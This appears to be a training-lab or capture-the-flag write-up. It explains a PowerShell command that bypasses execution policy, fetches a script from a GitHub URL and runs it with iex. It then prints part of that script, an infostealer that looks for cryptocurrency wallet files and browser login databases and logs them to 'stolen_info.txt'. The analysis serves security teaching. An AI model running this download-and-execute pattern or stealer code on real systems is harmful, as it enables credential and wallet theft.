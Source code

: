 ```ad-info
What thisÂ PowerShellÂ command does:

- TheÂ `-ep Bypass -nop`Â flags disable PowerShell's usual restrictions, allowing scripts to run without interference from security settings or user profiles.
- TheÂ `DownloadFile`Â method pulls a file (in this case,Â `IS.ps1`) from a remote server ([https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)) and saves it in theÂ `C:\\ProgramData\\`Â directory on the target machine.
- Once downloaded, the script is executed withÂ PowerShellÂ using theÂ `iex`Â command, which triggers the downloadedÂ `s.ps1`Â file.
```

If you visit the contents of the file to be downloaded using your browser (`https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1`), you will see just how lucky we are that we are not currently using Windows.


```powershell
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

```